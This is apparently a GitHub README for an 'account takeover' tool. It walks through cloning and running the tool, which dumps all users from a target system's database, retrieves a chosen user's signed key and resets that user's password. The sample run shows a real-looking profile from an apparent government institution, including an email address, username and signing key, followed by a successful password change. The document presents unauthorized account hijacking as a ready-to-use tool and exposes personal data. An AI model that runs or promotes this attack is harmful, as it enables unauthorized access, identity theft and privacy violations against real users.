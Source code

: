 # Account Take Over
Account takeover (ATO) refers to the unauthorized access and control of a user's account by an attacker. This can occur in various online platforms, including email accounts, social media, financial accounts, and more. The goal of an account takeover is typically to exploit the compromised account for personal gain.
![alt text](imgs/image.png)

## Table of Contents

- [Installation](#installation)
  - [Windows](#windows)
  - [Linux](#linux)
- [Usage](#usage)

## Installation
1. **Clone the repository:**

   ```bash
   git clone https://github.com/osochello/account-takeover.git

   cd account-takeover/
#### Windows

1. open cmd terminal as Adminstartor
2. Set Env and Install Requirments
3. Steps For Running

   ```bash
   #setup virtual env and install requirment command
   config.bat

   #for running the script type
   run.bat

#### Linux

1. Open Termical
2. Steps For Running

   ```bash
   #setup virtual env and install requirment command
   chmod +x config.sh
   ./config.sh
   
   #for running the script type
   chmod +x run.sh
   ./run.sh


## Usage
1. When a started it ask you to enter for hosting ip Server
    ```bash 
        Enter IP Address For Server Hosting: 10.0.20.21
1. and then it display you these
    ```bash 
        1. Get All Users
        2. Account Take Over

        Choose option (1 or 2): 2
        Enter User Id You want to get his signed Hash: 21
3. if you choose 1 its display all users of the system database and save them to file.
4. so in my case i choose number 2 for account takeover and i tried to use user id 21 for testing 
    ```bash
                 Profile For Jaam Solutions Tech

            User Id : 21
            Profile Image : /static/assets/placeholder.jpeg
            Email : ayanlestyle@gmail.com
            Name : Jaam Solutions Tech
            Phone : 212112
            Username : baarepol90
            Nooca Userka : Baare
            Waaxda Userka : xabsigahbbbbb
            Institution : Jamhuuriyada Federaalka Somaaliya
            Signed_key : MjE:1rdoat:b0KeuhbNbjUSsxfTByU5W4b-TWj67emno7EuCgTfgqE
5. after display User Profile it also ask you these three questions
    ```bash
        1. Profile Change
        2. Reset Password
        3. Change User Password.

        Choose option (1 or 2): 3
6. i choose 3 for change user password
    ```bash
        Enter your new password:
        # hint use 8 characters include Capital and Symbols e.g(Aa@2024!$): Aa@2024!

        Sending Data To The Server

        {"isError": false, "Message": "Saved it successfully"}
7. finaly it shows message for Successfully Changes Password.
